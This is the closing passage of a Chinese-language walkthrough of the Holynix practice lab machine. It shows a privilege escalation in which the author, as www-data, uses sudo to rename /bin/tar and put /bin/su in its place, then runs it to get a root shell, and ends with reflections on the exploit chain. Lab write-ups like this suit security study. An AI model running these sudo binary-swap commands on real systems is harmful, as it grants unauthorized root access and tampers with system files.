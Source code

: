 不给无密码登录，那就使用openssl生成一个，太麻烦了，用mv吧
```
www-data@holynix:/home/etenenbaum$ sudo mv /bin/tar /bin/tar.bak
sudo mv /bin/tar /bin/tar.bak
www-data@holynix:/home/etenenbaum$ sudo mv /bin/su /bin/tar
sudo mv /bin/su /bin/tar
www-data@holynix:/home/etenenbaum$ sudo /bin/tar
sudo /bin/tar
root@holynix:/home/etenenbaum# 
```

提权成功了
## 反思
这个靶机很有意思，利用到了很多漏洞链，之后看别人的wp。还有cookie的水平越权没发现，一环接一环的路子，很有意思，但是中间也会被卡一会。
